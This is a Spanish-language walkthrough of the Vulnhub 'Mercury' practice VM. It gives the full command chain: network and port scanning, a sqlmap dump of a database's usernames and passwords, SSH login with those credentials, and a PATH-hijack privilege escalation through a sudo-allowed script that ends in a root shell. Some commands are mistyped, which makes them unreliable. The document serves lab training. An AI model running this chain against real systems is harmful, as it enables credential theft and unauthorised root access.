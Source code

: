 # Informe vm Mercury-Vulnhub
A continuación, el walkthrough de la máquina virtual Mercury, del grupo Planets de Vulnhub, explicado paso a paso.
## Fase de reconocimiento 

Primero de todo, escaneamos la red local en busca de direcciones IP. Para ello usaremos el comando arp-scan sobre la interfaz de red en la que estemos trabajando: <br><br>
```
arp-scan -I eth3 --localnet --ignoredups
```
![Captura de pantalla 2024-01-23 180113](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/7410790a-b735-47ee-a640-2f05364c6852)

<br>
En mi caso, la IP de la máquina víctima es la 10.0.2.5. Le enviaremos un paquete para comprobar que está activa: <br><br>
```
ping -c1 10.0.2.5
```
<br>
Si se ha recibido el paquete podemos confirmar que nuestra máquina está activa.<br><br>

![Captura de pantalla 2024-01-23 180235](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/d0ec0854-270f-4e5f-af51-eca55140a64f)

A continuación, realizaremos un escaneo de puertos, buscando cuales estan abiertos con nmap <br><br>
```
nmap -p- --open -sS --min-rate 5000 -n -Pn 10.0.2.5 -oG allports
```
![Captura de pantalla 2024-01-23 183345](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/e4719d30-0384-4c9b-bff6-e6f762df49e6)
<br>

Como podemos comprobar, tiene abiertos los puertos 22 y 8080, que corresponden a ssh y http-proxy respectivamente. <br>
## Conexion e investigación de la máquina
Lo siguiente que haremos será conectarnos a la IP a través del puerto 8080 en un navegador. <br><br>

![Captura de pantalla 2024-01-23 183834](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/2415de39-a745-471f-89f9-276249a71a6f)
<br><br>

Vemos que nos aparece un mensaje, así que seguiremos investigando esta web. <br><br>

Lo siguiente que deberíamos hacer sería lanzar un Gobuster en busca de directorios en el servidor de la web. Pero antes de ello, iremos directamente a ver el robots.txt, a ver si ahí encontramos algo y nos podemos ahorrar el Gobuster. <br><br>

![Captura de pantalla 2024-01-23 185208](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/ad4a1645-07c3-460c-92e1-3267378ba98e)
<br><br>

Probaremos de usar el asterisco como directorio: <br><br>

![Captura de pantalla 2024-01-24 092445](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/b00d3310-a9cd-4f74-9aab-786979fe1ec2)
<br><br>

De lo que vemos en la web, lo más interesante son los 3 puntos que aparecen. Y si nos fijamos en el punto 3, tiene pinta de ser un directorio. Probaremos a ver. <br><br>
![Captura de pantalla 2024-01-24 093452](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/5390e909-9cb6-4d86-bc4e-cdaba241cc26)
<br><br>
Y llegamos a lo que aprece ser una web en desarrollo con 2 enlaces. El primero te lleva a datos sobre Mercurio, que puedes ir cambiando si cambias el número de la URL. Hay hasta 8 datos. El segundo enlace es una lista de cosas que hacer para la web. <br>
El siguiente paso será usar una herramienta llamada SQLmap, para que liste bbdd.<br><br>
```
sqlmap -u http.//10.0.2.5:8080/mercuryfacts/ --dbs --batch
```
![Imagen2](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/78754d50-e547-4a22-a04c-b489aba5320e)
<br><br>

El comando nos buscará posibles vulnerabilidades sql en el servidor de la web y también nos listará las bases de datos disponibles en dicho servidor. <br><br>
![Imagen3](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/078871b4-79f8-408e-ad58-2c5eb3a9236f)
<br><br>

Estas son las bases de datos encontradas en el servidor: information_schema y mercury. <br>
Una vez encontradas las bases de datos, explotaremos la que nos interesa, en nuestro caso, la mercury. A continuación, seguiremos usando sqlmap pero esta vez para extraer información de la base de datos mercury: <br><br>
```
sqlmap -u http.//10.0.2.5:8080/mercuryfacts/ -D mercury --dump-all --batch
```
![Imagen4](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/a2bc1efa-acff-4bfa-b168-e24555a23e5b)
<br><br>

Y hemos obtenido una lista de usuarios con sus respectivas contraseñas. Sabiendo que el puerto 22, correspondiente a ssh, está abierto, vamos a intentar explotar esta vulnerabilidad. Tras empezar a probar con cada usuario y contraseña, hemos tenido éxito con el usuario webmaster. <br><br>
```
ssh webmaster@10.0.2.5
```

![Imagen5](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/9c681734-201f-43dc-9d72-ecabcfb608dd)
<br><br>

Como vemos, tenemos acceso con el usuario webmaster. <br><br>

![Imagen6](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/d0979e8d-b046-444a-be3f-3c99fbb649f4)
<br><br>

A continuación, como hemos accedido como webmaster, listaremos los archivos y directorios en busca de algo interesante: <br><br>

![Imagen7](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/fcc207a5-4251-46bc-af88-830e929f3952)
<br><br>

Y hemos encontrado una flag. A continuación, seguiremos indagando en esta máquina en busca de más cosas. <br><br>
Veamos los derechos y privilegios del usuario con el que hemos accedido. <br><br>

![Imagen8](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/f328f7c3-e689-4e3b-b638-74004a3d080c)
<br><br>

Al parecer, el usuario con el que hemos accedido no tiene privilegios de root. Después de comprobar esto, veamos el directorio que aparecía además de la flag que hemos encontrado: <br><br>

![Imagen9](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/9a38498e-ec54-4b02-bb44-492a12568a0b)
<br><br>

Veamos qué contiene el archivo notes.txt. <br><br>

![Imagen10](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/6c6e1cb2-4c8c-4a3e-bec8-6b1e1d268379)
<br><br>
Parece que son 2 cadenas de caracteres codificados, seguramente en base 64. Vamos a intentar traducirlos. <br><br> 
```
echo "bWVyY3VyewlzdGhlc2l6ZW9MC4wNTZFYXJ0aHMK" | base64 -d mercuryisthesizeof0.056Earths
```

![Imagen11](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/64bc5d5e-3a73-46fb-bedf-c8d108845b54)
<br><br>

Tras decodificarla podemos comprobar que era la contraseña para el usuario webmaster. Lo que nos indica que probablemente la otra sea la contraseña del linuxmaster. Decodifiquémosla entonces: <br><br>
```
echo "bWVyYзVyew1lYW5kaWFtZXRlcmlzNDg4MGttCg= base64 -d mercurymeandiameteris4880km
```

![Imagen12](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/9d2d07cd-649c-4f1a-8b16-b11cdb578b49)
<br><br>

Efectivamente, obtenemos la contraseña de linuxmaster. A continuación, entraremos con estas credenciales. <br><br>
```
ssh linuxmaster@10.0.2.5
```
![Imagen13](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/640c4874-100a-4e88-9bc9-ea340c384aec)
<br><br>

Comprobamos qué derechos y privilegios tiene este usuario: <br><br>

![Imagen14](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/178edaf7-e645-4ee0-8c14-fa0be345860a)
<br><br>

Parece ser que tiene privilegios de root sobre /usr/bin/check_syslog.sh. Realizaremos a continuación una escalada de privilegios para obtener acceso como root. <br><br>
```
cat /usr/bin/check_syslog.sh
```
```
tail -n 10 /var/log/syslog
```
```
ln -s /usr/bin/vi tail
```
```
export PATH=$(pwd):$PATH
```
```
sudo --preserve-env=PATH /usr(bin/check_syslog.sh
```

![Imagen15](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/d097a58d-c8f4-47a4-b94b-2d34d11f1741)
<br><br>

A continuación escribiríamos lo siguiente: <br>
```
:!/bin/bash
```
<br>
Y ya tendríamos acceso como root y podríamos encontrar la segunda y útlima flag de esta máquina: <br><br>

![Imagen16](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/0dafd5bd-445a-4c56-924d-c3eb5eb658cd) 
<br>

![Imagen17](https://github.com/eltapia1/Mercury-Vulnhub/assets/150331416/14a1c3d7-f12a-402c-aeb7-b37a99bcc444)







